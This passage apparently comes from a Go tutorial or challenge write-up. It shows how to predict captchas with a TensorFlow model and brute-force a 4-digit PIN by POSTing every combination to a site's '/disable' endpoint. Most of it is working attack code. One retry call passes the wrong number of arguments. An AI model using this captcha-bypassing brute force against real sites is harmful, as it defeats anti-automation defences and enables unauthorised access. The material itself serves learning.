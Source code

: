 Run the data through the graph and receive the output - the captcha prediction.

```go
	captchaText, err := savedModel.Session.Run(feeds, fetches, nil)
	if err != nil {
		log.Fatal(err)
	}
	captchaString := captchaText[0].Value().(string)

```

Here is how this looks like:

![The captcha screenshot](/postimages/advent-2017/screenshot.png)



### Generate a PIN code 

The PIN code is made of 4 digits, so we'll go over all the combinations. Additionally, in each iteration the saved model is required for the prediction operation, and of course some logs.

```go
for x := 0; x < 10000; x++ {
		logIntoSite(fmt.Sprintf("%0.4d", x), savedModel, *printLogs)
	}
```

### Try to log in

Once all values are there - the current value of the PIN code in the loop and the captcha prediction - let's POST that request to the login page.

```go
	params := url.Values{}
	params.Set("pin", pinAttempt)
	params.Set("captcha", captchaString)

	res, err := client.PostForm(string(siteUrl+"/disable"), params)
	if err != nil {
		log.Fatal(err)
	}

	defer res.Body.Close()
	buf = new(bytes.Buffer)
	buf.ReadFrom(res.Body)
	response := buf.String()
```

If the captcha prediction failed, run the prediction again, and retry with the same PIN code.

```go
	if parseResponse(response, pinAttempt, captchaString, printLogs) == badCaptcha {
		logIntoSite(savedModel, printLogs)
	}
```
